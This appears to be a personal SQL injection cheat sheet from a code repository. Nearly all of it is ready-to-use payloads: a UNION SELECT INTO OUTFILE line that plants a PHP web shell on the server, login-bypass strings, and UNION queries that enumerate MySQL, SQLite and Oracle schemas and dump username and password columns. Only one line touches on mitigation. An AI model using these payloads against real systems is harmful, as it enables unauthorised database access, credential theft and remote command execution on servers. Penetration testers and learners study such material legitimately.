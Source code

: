 - Web shell
  - FInd configuration file:
  - apache: /etc/apache2/apache2.conf
  - ngixn:  /etc/nginx/nginx.conf
  - IIS:    %WinDir%\System32\Inetsrv\Config\ApplicationHost.config,
  - 'UNION SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"-- -

- Mitigation: user input, restricted privielge, special functions for checking characters, parametirzed queries(escape quotes)
- 
## Authentication
- [Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)
- Try: '"#;)
- Comments: -- #(%23) /**/ 
  - admin') -- ' 
  - admin'-- [everything here is a comment and will be ignored]
  - or 1 = 1'-- ==> will always return true
  - header:  X-Forwarded-For: IP


## UNION
- join two or more tables + number o columns and data type muss be equal
- 'UNION SELECT NULL,NULL...-- - ==> until success to find number of columns
  - NULL = compatible with all data type
- 'UNION SELECT column1,column2 FROM table_name-- -
- find db = '0 union 1,2,database()-- -
- find tables = '0 union select  1,2,group_concat(table_name) FROM information_schema.tables where table_schema='db_name'
  -  information_schema = info about all databases and tables
- find columns: 0 union select  1,2,group_concat(column_name) FROM information_schema.columns where table_name= 'table_name'-- -
- content: '0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

- SQLITE 
  - exist vuln: ' UNION SELECT 1,2'
  - find tables: ' UNION SELECT 1,group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT LIKE 'sqlite_%''
  - find columns: ' UNION SELECT 1,group_concat(column_name) FROM table_name '
  - find content: ' UNION SELECT 1,group_concat(column1 || '-' || column2) FROM table_name '
  
- Find version (always UNION)
  - Microsoft, MySQL	SELECT @@version
  - Oracle	SELECT * FROM v$version
  - PostgreSQL	SELECT version()

### Find data oracle
- Oracle DB: '+UNION+SELECT+NULL,NULL+FROM+v$version--
- 2 Columns strings: '+UNION+SELECT+'abc','abc'+FROM+v$version--
- Show tables: '+UNION+SELECT+table_name,+NULL+FROM+all_tables-- 
-Show columns: '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='table_name'
- Find content: '+UNION+SELECT+colum1,+column2,+FROM+discovered_table-- 
